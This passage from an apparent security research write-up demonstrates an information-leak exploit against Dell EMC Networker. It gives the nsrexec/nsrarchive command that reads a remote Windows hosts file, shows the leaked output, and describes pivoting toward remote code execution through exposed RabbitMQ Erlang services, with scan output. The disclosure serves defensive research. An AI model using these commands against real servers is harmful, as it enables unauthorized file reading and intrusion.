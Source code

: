 Windows hosts are also affected, here we demonstrate it by reading the remote system hosts file:

```
export RCMD='nsrarchive -I "C:\\Windows\\System32\\drivers\\etc\\hosts" -T t'
nsrexec -c 192.168.121.183 | cut -d':' -f2 | sed 's/ No such file or directory [0-9 ]* //g' 
89922 1613751289 1 5 0 3588 2452 0 networker-win nsrarchive NSR notice 74 \nFinished reading the annotation string; beginning the archive process.\n 0
 %s. Continuing ...  1 24 184 A connection attempt failed because the connected party did not properly respond after a period of time, or established connection failed because connected host has failed to respond.
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host
# localhost name resolution is handled within DNS itself.
#    127.0.0.1       localhost
#    
192.168.121.92   networker-client1
192.168.121.50   networker-client
192.168.121.238  networker-server
```


##### Pivoting from Information Leak to RCE

Looking for ways to gain greater control over the target with this information leak, we identified that Dell EMC Networker Server runs a RabbitMQ message broker service. As we can see in the diagram below, that service (TCP/5672, TCP/5671) is used by the Networker Management Console.

{:.foo}
![EMC Dell Networker Network Diagram excerpt]({{site.url}}/assets/networker_server_network_diagram.png)


By default, RabbitMQ is configured for inter-node communication. This means it will expose two services on top of the existing AMQP service:

- epmd (for **Erlang Port Mapping Daemon**)
- eds (for **Erlang Distribution Server**)

These services will show up when you scan a Dell EMC Networker server:

```
Host is up, received arp-response (0.000019s latency).
Scanned at 2020-11-24 17:54:41 CET for 165s
PORT      STATE SERVICE         REASON         VERSION
4369/tcp  open  epmd            syn-ack ttl 64 Erlang Port Mapper Daemon
5672/tcp  open  amqp            syn-ack ttl 64 RabbitMQ 3.2.4 (0-9)
44296/tcp open  unknown         syn-ack ttl 64
MAC Address: 52:54:00:84:E6:65 (QEMU virtual NIC)
```
